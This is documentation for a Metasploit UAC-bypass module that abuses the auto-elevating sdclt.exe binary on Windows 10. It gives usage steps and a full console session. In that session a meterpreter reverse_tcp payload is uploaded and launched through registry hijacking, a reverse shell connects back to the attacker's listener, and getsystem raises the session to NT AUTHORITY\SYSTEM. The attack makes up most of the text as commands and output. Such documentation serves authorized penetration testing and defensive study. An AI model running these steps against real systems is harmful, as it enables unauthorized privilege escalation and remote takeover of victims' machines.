 ## Introduction

This module exploits an autoelevate feature in the windows backup
system's sdclt.exe binary to run as a higher integrity process.

## Usage

1. Create a session on the target system under the context of a local administrative user.
2. Begin interacting with the module: `use exploit/windows/local/bypassuac_sdclt`.
3. Set the `PAYLOAD` and configure it correctly.
4. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
5. Make sure that the `SESSION` value is set to the existing session identifier.
6. Invoke the module: `run`.

## Scenarios

### Windows 10.0.17134 x64

```
msf exploit(windows/local/bypassuac_sdclt) > show options

Module options (exploit/windows/local/bypassuac_sdclt):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   PAYLOAD_NAME                   no        The filename to use for the payload binary (%RAND% by default).
   SESSION       1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x64


msf exploit(windows/local/bypassuac_sdclt) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\sdclt.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\sdclt.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\YwaGlnJtV.exe!
[*] Please wait for session and cleanup....
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 2 opened (192.168.135.168:4444 -> 192.168.132.125:49679) at 2019-10-25 14:55:08 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
